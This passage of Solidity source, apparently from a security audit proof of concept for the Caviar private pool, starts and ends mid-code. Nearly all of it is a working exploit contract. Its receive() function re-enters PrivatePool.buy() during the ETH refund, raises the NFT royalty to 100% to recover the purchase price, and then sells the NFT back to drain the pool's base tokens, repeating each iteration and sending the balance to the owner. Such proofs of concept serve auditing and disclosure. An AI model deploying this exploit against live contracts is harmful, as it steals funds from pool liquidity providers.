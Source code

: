 ```solidity
                tokenIds,
                tokenWeights,
                proof
            );
        }

        // Return all assets to the owner/original receiver.
        (bool success, ) = payable(owner()).call{value: address(this).balance}(
            ""
        );

        // Ensure the call was successful.
        require(success);
    }

    /**
     * @notice Main logic for the exploit.
     */
    receive() external payable {
        // Do not allow arbitrary calls.
        require(msg.sender == address(vulnerablePrivatePool));

        // Return if the call comes from PrivatePool.sell().
        if (f2) return;

        // We should enter the next block only if the call
        // comes from the ETH excess refund in PrivatePool.buy().
        if (!f1) {
            // Do not enter again for this iteration.
            f1 = true;

            // Cache the original fee in order to reset it later.
            (, originalFee) = nft.royaltyInfo(tokenId, 10_000);

            // Increase the royalty fee significantly to get back the price we paid for buying it.
            nft.setTokenRoyalty(tokenId, address(this), 10_000);

            // Return to PrivatePool.buy().
            return;
        }

        // Reset the fee.
        nft.setTokenRoyalty(tokenId, address(this), uint96(originalFee));

        // Set the second flag used to not execute any logic if the call comes from PrivatePool.sell().
        f2 = true;

        // Approve the bought NFT to the Caviar private pool.
        nft.approve(address(vulnerablePrivatePool), tokenId);

        // Sell the bought NFT in order to extract base tokens from the vulnerable private pool.
        vulnerablePrivatePool.sell(
            new uint256[](1),
            new uint256[](0),
            PrivatePool.MerkleMultiProof(new bytes32[](0), new bool[](0)),
            new IStolenNftOracle.Message[](0)
        );

        // Reset state variables so attack can be performed one more iteration.
        delete originalFee;
        delete f1;
        delete f2;
```